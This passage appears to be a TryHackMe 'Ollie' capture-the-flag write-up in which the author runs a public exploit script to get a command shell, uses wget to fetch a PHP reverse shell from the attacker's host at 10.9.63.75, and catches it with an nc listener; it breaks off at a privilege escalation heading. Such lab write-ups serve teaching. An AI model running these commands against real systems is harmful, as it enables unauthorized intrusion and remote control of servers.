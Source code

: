 And it would be like this:

```
┌──(kali㉿kali)-[~/TryHackMe/Ollie]
└─$ python3 50963.py -url http://ollie.thm/ -usr admin -pwd REDACTED --shell

█▀█ █░█ █▀█ █ █▀█ ▄▀█ █▀▄▀█   ▄█ ░ █░█ ░ █▀   █▀ █▀█ █░░ █   ▀█▀ █▀█   █▀█ █▀▀ █▀▀
█▀▀ █▀█ █▀▀ █ █▀▀ █▀█ █░▀░█   ░█ ▄ ▀▀█ ▄ ▄█   ▄█ ▀▀█ █▄▄ █   ░█░ █▄█   █▀▄ █▄▄ ██▄

█▄▄ █▄█   █▄▄ █▀▀ █░█ █ █▄░█ █▀▄ █▄█ █▀ █▀▀ █▀▀
█▄█ ░█░   █▄█ ██▄ █▀█ █ █░▀█ █▄▀ ░█░ ▄█ ██▄ █▄▄

[...] Trying to log in as admin
[+] Login successful!
[...] Exploiting
Shell> id
1        uid=33(www-data) gid=33(www-data) groups=33(www-data)
        3       4
```

Then I want to implement a reverse shell for better view and easier interacting. However, I tried to use a few reverse shell commands but this shell did not work as I expected. Then I have to transfer my own `.php` reverse shell to the target and execute it to get the shell:

```
Shell> wget http://10.9.63.75:8000/shell.php -O /tmp/shell.php
1               3       4

Shell> ls -l /tmp/
1        total 8
-rw-r--r-- 1 www-data www-data 5492 Sep 19 03:23 shell.php
        3       4

Shell> php -f /tmp/shell.php
```

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.63.75] from (UNKNOWN) [10.10.163.197] 53554
Linux hackerdog 5.4.0-99-generic #112-Ubuntu SMP Thu Feb 3 13:50:55 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 04:27:42 up 13 min,  0 users,  load average: 0.00, 0.05, 0.08
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Privilege Escalation → normal user

First of all, let’s one more time pwn a better shell with `pty` using `python3`:


[REDACTED]: Bourne-Again shell script, ASCII text executable